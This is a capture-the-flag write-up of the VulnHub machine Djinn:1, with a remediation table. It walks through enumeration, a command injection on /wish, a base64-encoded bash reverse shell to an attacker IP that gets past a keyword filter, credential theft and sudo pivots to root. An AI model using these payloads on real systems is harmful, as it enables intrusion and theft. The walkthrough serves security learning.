





# Djinn: 1 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.43.134 |
| **Attacker IP** | 192.168.43.249 |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Goal** | root flag (via `/root/proof.sh`) |
| **Source** | [HackingArticles](https://www.hackingarticles.in/djinn1-vulnhub-walkthrough/) |

---

## Attack Summary

Djinn:1 exposes FTP with anonymous access (containing credential hints), a math game on port 1337, and a web application on port 7331. A command injection vulnerability on the `/wish` endpoint is protected by a word filter. The filter is bypassed by base64-encoding the payload and piping it through `base64 -d | bash`. Initial access is gained as `www-data`. Credentials found in `app.py` allow lateral movement to `nitish`. A `sudo` rule lets `nitish` run `genie` as `sam`. A second `sudo` rule lets `sam` run `/root/lago` as root. A Python 2 `input()` flaw in `lago` allows arbitrary code execution as root.

---

## Methodology

1. Port scan: FTP (21), game (1337), web (7331); SSH filtered
2. FTP anonymous login: download `creds.txt`, `game.txt`, `message.txt`
3. Gobuster on port 7331: find `/wish` endpoint
4. OS command injection on `/wish` confirmed with `id`
5. Filter bypass via base64 encoding — reverse shell as `www-data`
6. Credentials in `/home/nitish/.dev/creds.txt` → pivot to `nitish`
7. `sudo -u sam genie -cmd new` → shell as `sam`
8. `sudo -u root /root/lago` + Python 2 `input()` abuse → root shell
9. Read `/root/proof.sh` for root flag

---

## Step 1: Host Discovery and Port Scanning

```bash
netdiscover
nmap -p- 192.168.43.134
```

Open ports: **21** (FTP), **1337** (game), **7331** (HTTP). SSH is filtered.



---

## Step 2: FTP Anonymous Login

```bash
ftp 192.168.43.134
# Username: anonymous
# Password: (blank)

get creds.txt
get game.txt
get message.txt
bye
```

`creds.txt` contains SSH credentials, but SSH is filtered. `message.txt` references the game on port 1337.

---

## Step 3: Web Enumeration on Port 7331

```bash
gobuster dir -u http://192.168.43.134:7331 \
  -w /usr/share/wordlists/dirb/big.txt
```

Found: `/genie` (403 Forbidden) and `/wish` (200 OK).



---

## Step 4: Command Injection on /wish

Browse to `http://192.168.43.134:7331/wish`. Submit `id` in the form field. The response shows the output of `id`, confirming OS command injection.

Attempt a direct reverse shell — the server returns "Wrong choice of words," indicating a filter is active.

---

## Step 5: Filter Bypass via Base64

Encode the reverse shell payload in base64:

```bash
# Payload: bash -i >& /dev/tcp/192.168.43.249/8080 0>&1
echo "bash -i >& /dev/tcp/192.168.43.249/8080 0>&1" | base64
# Output: YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQzLjI0OS84MDgwIDA+JjEK
```

Start the listener on Kali:

```bash
nc -nlvp 8080
```

Submit the following in the `/wish` form:

```
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQzLjI0OS84MDgwIDA+JjEK | base64 -d | bash
```

A reverse shell arrives as `www-data`.



---

## Step 6: Lateral Movement to nitish

In the web shell, examine the application files:

```bash
cat /opt/80/app.py
```

`app.py` references a `creds.txt`. Read it:

```bash
cat /home/nitish/.dev/creds.txt
```

Nitish's credentials are present. Spawn a TTY and switch user:

```bash
python -c 'import pty;pty.spawn("/bin/sh")'
su nitish
# enter the recovered password
```

Read the user flag:

```bash
cat /home/nitish/user.txt
```

---

## Step 7: Lateral Movement to sam via sudo

```bash
sudo -l
```

Output: nitish may run `genie` as `sam` without a password.

```bash
sudo -u sam genie -cmd new
```

A shell as `sam` is obtained.

---

## Step 8: Privilege Escalation via Python 2 input() Abuse

Check sam's sudo rights:

```bash
sudo -l
```

Output: sam may run `/root/lago` as root.

```bash
sudo -u root /root/lago
```

The binary presents a menu. Choose option **2** and enter **num** at the prompt. Python 2's `input()` evaluates its argument as Python code, executing it as root:

```
Select option: 2
Enter value: num
```

This triggers arbitrary code execution, yielding a root shell.



---

## Step 9: Root Flag

```bash
id
cd /root
./proof.sh
```



---

## Lessons Learned

- FTP anonymous access should be disabled unless explicitly required. Even non-exploitable credential files leak information about the authentication model.
- Output-based command injection filters are often incomplete. Base64-piping is a reliable and well-documented bypass for character/keyword filters.
- Sensitive credential files (`.dev/creds.txt`) should not be readable by web server processes.
- Multi-hop `sudo` chains (`nitish → sam → root`) amplify the impact of a single weak link.
- Python 2's `input()` is equivalent to `eval(raw_input(...))` and should never be used to process untrusted or user-supplied data. Python 3's `input()` does not have this flaw.

---

## Remediation

| Vulnerability | Fix |
|---|---|
| FTP anonymous access exposing credential hints | Disable anonymous FTP; never store credential data in FTP-accessible paths |
| OS command injection on `/wish` | Use parameterised APIs; never pass user input directly to shell commands |
| Inadequate input filter (bypassable with base64) | Deny by default; use allowlists, not keyword blocklists |
| Credentials readable by `www-data` | Apply least-privilege file permissions; store secrets in a secrets manager |
| Python 2 `input()` used for privileged operation | Migrate to Python 3; never use `eval`/`input()` on untrusted data |
| Overly permissive `sudo` chain | Audit `sudo` rules; remove unnecessary entries; require passwords |
